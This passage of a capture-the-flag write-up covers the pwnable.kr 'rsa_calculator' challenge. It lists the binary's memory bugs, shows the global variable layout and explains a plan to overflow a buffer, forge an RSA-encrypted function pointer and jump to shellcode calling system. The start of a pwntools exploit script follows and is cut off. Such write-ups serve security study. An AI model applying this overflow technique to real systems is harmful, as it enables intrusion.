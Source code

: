 Bugs:
* 1: in the loop with `sscanf` with "%02x": it is two-times too long.
* 2: `ciphertext` is 512 bytes long, but `memcpy` may copy up to 1024 bytes
* 3: `data_counter / 8` should be `data_counter / 4`
* 4: format string bug

We can go with bug1 in encryption function (`g_ebuf` overflow). Globals layout is:
```c
.bss:00000000006020E0 ; int g_ebuf[256]
.bss:00000000006020E0 g_ebuf          dd 100h dup(?)
.bss:00000000006020E0 
.bss:00000000006024E0                 public is_set
.bss:00000000006024E0 is_set          dd ?
.bss:00000000006024E0                  
.bss:00000000006024E4                 align 20h
.bss:0000000000602500                 public func
.bss:0000000000602500 ; __int64 func[5]
.bss:0000000000602500 func            dq 5 dup(?)
.bss:0000000000602500 
.bss:0000000000602528 ; char pwnable_best[16]
.bss:0000000000602528 pwnable_best    db 10h dup(?)
.bss:0000000000602528 
.bss:0000000000602538 system_func     dq ?
```

So we need 256 + 1 + 7 bytes of padding and then pointer to shellcode (for example). Main drawback is that the pointer have to be "encrypted". That is we need to send some x, such that pow(x, e, n) == address. For that we may use `dsks` function from CryptoAttacks (it's "Duplicate-Signature Key Selection" attack described in cryptopals set8). Another thing: program treats params as signed ints, so care should be taken not to overflow anything.

The shellcode may be placed in `g_pbuf`. As we have `system` address in global section, the shellcode just needs to set args and jump to it.

Exploit:
```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

'''
~Gros
'''

from pwn import *
from binascii import *
from gmpy2 import next_prime, iroot
from CryptoAttacks.Math import euler_phi, product
from CryptoAttacks.PublicKey.rsa import dsks


BINARY_FILE = '../rsa_calculator'
REMOTE = ('pwnable.kr', 9012)


def setup_connection():
    binary, libc, preload = None, None, False
    local_libc = '/lib/x86_64-linux-gnu/libc.so.6'
    task_libc = './libc.so.6'

    env = {}
    if args.PRELOAD:
        local_libc = task_libc
        env = {'LD_PRELOAD': task_libc}

    if args.BINARY:
        binary = ELF(BINARY_FILE)
```